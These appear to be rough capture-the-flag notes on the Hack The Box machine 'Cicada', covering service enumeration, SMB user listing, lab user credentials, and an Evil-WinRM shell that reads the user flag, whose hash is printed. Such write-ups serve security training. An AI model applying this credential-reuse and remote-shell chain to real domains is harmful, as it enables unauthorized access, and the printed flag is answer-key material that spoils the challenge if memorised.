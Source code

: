 
10.129.169.79

---

dc
dns
smb
5985 winrm

Microsoft Windows Active Directory LDAP
Domain: cicada.htb0.
commonName=CICADA-DC.cicada.htb
DNS:CICADA-DC.cicada.htb

Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

clock-skew: 6h59m59s

---

To hosts

10.129.169.79 CICADA-DC.cicada.htb cicada.htb CICADA-DC cicada


---

`Your default password is: Cicada$M6Corpb*@Lp#nZp!8`
`Cicada$M6Corpb*@Lp#nZp!8`
`support@cicada.htb`

---


SMB         10.129.169.79   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)

SMB         10.129.169.79   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)

SMB         10.129.169.79   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.169.79   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.169.79   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.169.79   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.169.79   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars

---

`michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`
`david.orelious:aRt$Lp#7t*VQ!3` - has read on dev
`emily.oscars:Q!3@Lp#M6b*7t*Vt` - has c$ read/write

---

bloodhound

![[Images/Pasted image 20250731203828.png]]

---

emily can winrm:

\*Evil-WinRM\* PS C:\Users\emily.oscars.CICADA\desktop> type user.txt
dc022bac90643267cc71414f3496f6f9

---



